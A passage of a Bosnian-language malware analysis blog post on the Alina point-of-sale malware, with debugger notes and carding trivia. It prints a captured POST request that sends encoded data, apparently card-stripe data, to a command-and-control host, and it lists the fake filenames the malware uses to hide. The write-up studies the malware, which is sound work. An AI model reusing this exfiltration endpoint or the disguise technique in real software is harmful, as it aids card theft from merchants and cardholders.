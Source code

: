 **Request #2** (detekcija trake):
  
	4	TCP	192.168.1.175	193.109.68.159	4426	80	computer_1.ASUS	888andro.net	http	7	622 Bytes	1,406 Bytes	4.7 KB/Sec	1/2/2014 11:37:18 PM:051	1/2/2014 11:37:18 PM:181	00:00:00.130					

	POST /insider/loading.php HTTP/1.1
	Accept: application/octet-stream
	Content-Type: application/octet-stream
	Connection: Close
	User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; InfoPath.1 Spark v1.1
	Host: 888andro.net
	Content-Length: 181
	Cache-Control: no-cache

	....................................................................N.........1.wV....TDAWV30%IBfI}V....SDATV36%IBfIV.	..TDAUV30%I.fI{V....SDAQV31%IEfI{V.	..SDATV30%IEfI~V.
	..SDA.U


Kao što vidimo, radi se o octet-stream. Budući da nisam toliko upućen u **MITMA** izguglao sam šta je *octet-stream*. Radi se o type-u koji nije tekst već binarni fajl. Znači da ga server ne registruje kao ASCII nego datoteku. Ipak palim Olly opet da vidim o čemu se radi. Postavio sam nekoliko breakpointa da vidim šta se dešava i otkud taj fajl koji se šalje preko requesta. Emulacija `CreateFileA` se javlja na adresi `0x401F48`. Ako pogledate EAX registar vidite koji se fajl kreira.

![File creation](http://i.imgur.com/Pxltzmf.png)

Kasnije se isti taj kreirani fajl uzima i pod case (slučaj) se bira random ime koji su predefinisani: `adobeflash.exe`, `desktop.exe`, `jucheck.exe`, `jusched.exe`, `java.exe`.
Poziv API-a `InternetOpenA` se nalazi na adresi `0x404089` i tu sam već postavio breakpoint kada sam gledao module.

	00404089   . FF15 98A14100  CALL DWORD PTR DS:[<&WININET.InternetOpe>;  WININET.InternetOpenA

I opet sam se satima vukao po debuggeru gore dole, lijevo desno, išao redom ali nisam mogao naći izvor fajla. I tek sam na kraju skontao da je panel broken i da nema opet nikakve koristi od toga. Stim da sam provjeravao enkripcije koju koristi Alina, ali opet nula bodova. Na kraju sam digao ruke jer gaf nije htio da mi pup**i k**u. Možda opet nekad pogledam taj request, ali trenutno mi je muka od adresa. Inače, već posjedujem stari izvorni kod Aline, mnogo je loše ispisan, 24+ threada su pozvani, 100% CPU usage. Ovaj izgleda još gore, vidi se da se radi o prljavim parama. POS malwarei su sami po sebi zanimljiva ideja, ali napraviti jedan koji će biti baš optimizovan je već malo teže. :)  

## Zanimljivosti

	EFTPOS tehnologija je uvedena 1981. godine u SAD
	EFTPOS je najčešći oblik plaćanja u Australiji, zatim u Novom Zelandu, a na trećem mjestu u SAD
	Magnetska traka nekad sadrži samo track-1 data jer je ona u biti najvažnija
	Alina source code je na prodaji za 2000$
	Očekuje se da će se POS malware u 2014. proširiti maksimalno  


## Pojedine riječi

	sleng = ulični riječnik
	karder = neko ko se bavi kartičnim fraudom
	skimming = tehnika u kojoj je hardver zamjenjen lažnim na ATM
	BIN = bank identification number (prvih šest brojeva na kartičnog broja koje označavaju izdavačku banku kartice)

## Reference

	http://en.wikipedia.org/wiki/Point_of_sale
	http://en.wikipedia.org/wiki/EFTPOS
	http://en.wikipedia.org/wiki/Magnetic_stripe_card
	http://kb.iu.edu/data/agtj.html

